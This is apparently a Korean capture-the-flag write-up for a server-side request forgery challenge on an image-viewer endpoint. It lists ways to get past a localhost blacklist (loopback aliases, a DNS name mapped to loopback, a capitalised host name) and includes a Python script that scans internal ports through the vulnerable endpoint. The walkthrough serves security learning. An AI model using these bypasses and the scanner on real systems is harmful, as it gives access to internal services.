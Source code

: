 ## 해설
### 웹서비스 분석
---
#### `/img_viewer` 엔드포인트
* GET
img_viewer.html 렌더링한다.
* POST
이용자가 입력한 `url`에 HTTP요청을 보내고, 응답을 img_viewer.html의 인자로 렌더링한다.
#### run_local_server
파이썬의 `http`를 이용하여 임의 포트에 HTTP서버를 실행한다. `http.server.HTTPServer`의 두번째 인자로 `http.server.SimpleHttpRequestHandler`를 전달하면, 현재 디렉터리를 기준으로 URL이 가리키는 리소스를 반환한다.
### 취약점 분석
---
이용자가 POST로 전달한 `url`에 HTTP 요청을 보내고, 응답을 반환한다. 이 때 "127.0.0.1", "localhost"이 포함된 URL의 접근을 막는다.
* 블랙리스트 필터링
URL에 포함하면 안 되는 문자열로 블랙리스트를 만들어, 이용자의 접근을 제한하는 방법
* 화이트리스트 필터링
접근을 허용할 URL로 화이트 리스트를 만들어, 그외의 접근을 제한하는 방법
### 익스플로잇
---
#### URL 필터링 우회
* 127.0.0.1과 매핑된 도메인 이름 사용
도메인 이름을 구매하면, 이를 DNS서버에 등록하여 원하는 IP 주소와 연결할 수 있다. 이후에는 등록한 이름이 IP주소로 Resolve된다.
* 127.0.0.1의 alias 이용
16진수로 표현하거나 각각의 .을 제거하거나, 10진수로 풀어 쓰거나, 각 자리의 0을 생략해도 127.0.0.1을 나타낸다. 특히 127.0.0.1부터 127.0.0.255는 모두 루프백 주소로 전부 로컬 호스트를 가리킨다.
* localhost의 alias 이용
호스트와 스키마는 대소문자를 구분하지 않는 것을 이용하여, localhost의 문자를 대문자로 바꿔도 가능하다.
#### 포트 번호 찾기
```py
#!/usr/bin/python3
import requests
import sys
from tqdm import tqdm
# `src` value of "NOT FOUND X"
NOTFOUND_IMG = "iVBORw0KG"
def send_img(img_url):
    global chall_url
    data = {
        "url": img_url,
    }
    response = requests.post(chall_url, data=data)
    return response.text
def find_port():
    for port in tqdm(range(1500, 1801)):
        img_url = f"http://Localhost:{port}"
        if NOTFOUND_IMG not in send_img(img_url):
            print(f"Internal port number is: {port}")
            break
    return port
if __name__ == "__main__":
    chall_port = int(sys.argv[1])
    chall_url = f"http://host1.dreamhack.games:{chall_port}/img_viewer"
    internal_port = find_port()
```
#### FLAG얻기
바꾼 url과 포트번호를 이용하여 얻은 img는 base64로 인코딩 되어있기 때문에 디코딩해주면, FLAG를 얻을 수 있다.